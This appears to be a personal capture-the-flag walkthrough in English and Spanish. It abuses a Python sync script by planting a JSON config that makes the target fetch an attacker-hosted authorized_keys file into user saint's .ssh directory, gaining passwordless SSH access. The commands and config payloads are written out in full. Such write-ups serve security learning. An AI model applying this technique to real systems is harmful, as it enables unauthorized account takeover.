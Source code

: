 It is complex... but you need to analyze what is happening between this two archives on python. This make a series of validations and then put data on another archive, syncer.py call a configuration... so we are going to create that configuration

We have to create an archive called 
 
touch 02-04-2022.config.json


so, its reading something and putting where to deposite the readed file

{
"URL": "http://172.16.0.140/test"
"Output": "/tmp/prueba"
}

![[Screenshot_2023-08-15_16_29_39.png]]

Now, we need to wait until this make a petition to our server to our archive called test.

Dice que si se crea la peticion y se crea un archivo como el usuarion saint, entonces tiene una via para crear una clave publica .. contemplarla como autorized keys dentro del directorio ssh del usuario saint y poderse conectar sin proporcionar contraseña. Y si no hacer otra cosa.


So it happens, saint has created an archive called "prueba". I had some problems, because on the archive .json I forgot to put a , between two values, so it  doesn't work

The archive is owned by saint
![[Screenshot_2023-08-15_16_54_25.png]]
We are going to generate a ssh-key, but first we must remove older ones.

```
rm ~/.ssh/*
```

Now we are going to create a key with ssh keygen

```
ssh-keygen 
```
now we go to the folder

```
~/.ssh/id_rsa
```

we copy the folder on our workspace
```
cat ~/.ssh/id_rsa.pub > authorized_keys

```

now we are going to do the same, wit the python server, but trying to put that archive on the target

This will be the json archive and the folder
```
{
"URL":"http://172.16.0.140/authorized_keys",
"Output":"/home/saint/.ssh/authorized_keys"
}
```
